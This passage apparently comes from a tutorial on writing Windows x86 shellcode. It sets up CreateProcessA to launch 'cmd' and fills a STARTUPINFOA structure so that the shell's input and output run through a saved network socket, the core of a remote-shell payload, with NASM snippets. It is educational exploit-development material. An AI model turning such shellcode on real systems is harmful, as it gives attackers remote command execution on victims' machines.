 So as you can see we have our work cut out for us here. Luckily a lot of these values are NULL for our purposes. Here's what CreateProcessA should look like. 

```
BOOL CreateProcessA(
  LPCSTR                lpApplicationName - NULL
  LPSTR                 lpCommandLine - pointer to "cmd" we'll store in ECX
  LPSECURITY_ATTRIBUTES lpProcessAttributes - NULL
  LPSECURITY_ATTRIBUTES lpThreadAttributes - NULL
  BOOL                  bInheritHandles - 1 (TRUE)
  DWORD                 dwCreationFlags - 0
  LPVOID                lpEnvironment - NULL
  LPCSTR                lpCurrentDirectory - NULL
  LPSTARTUPINFOA        lpStartupInfo - pointer we'll store in EAX
  LPPROCESS_INFORMATION lpProcessInformation - pointer we'll store in EBX
);
```
Let's go ahead and setup our pointer to "cmd"

```nasm
mov edx, 0x646d6363	; cmdd
shr edx, 8		; cmd
push edx
mov ecx, esp		; pointer to "cmd"
```

We also need a pointer for ProcessInformation, however we can literally just point this to garbage on the stack.

```nasm
xor edx, edx
sub esp, 16
mov ebx, esp		; pointer for ProcessInfo (points to garbage)
```

Now we'll need to create the ridiculous StartUpInfo pointer to reflect the following:

```
typedef struct _STARTUPINFOA {
  DWORD  cb - 0x44, size of structure
  LPSTR  lpReserved - NULL
  LPSTR  lpDesktop - NULL
  LPSTR  lpTitle - NULL
  DWORD  dwX - NULL
  DWORD  dwY - NULL
  DWORD  dwXSize - NULL
  DWORD  dwYSize - NULL
  DWORD  dwXCountChars - NULL
  DWORD  dwYCountChars - NULL
  DWORD  dwFillAttribute - NULL
  DWORD  dwFlags - STARTF_USESTDHANDLES 0x00000100
  WORD   wShowWindow - ignored
  WORD   cbReserved2 - NULL
  LPBYTE lpReserved2 - NULL
  HANDLE hStdInput - saved socket in ESI
  HANDLE hStdOutput - saved socket in ESI
  HANDLE hStdError - saved socket in ESI
}
```

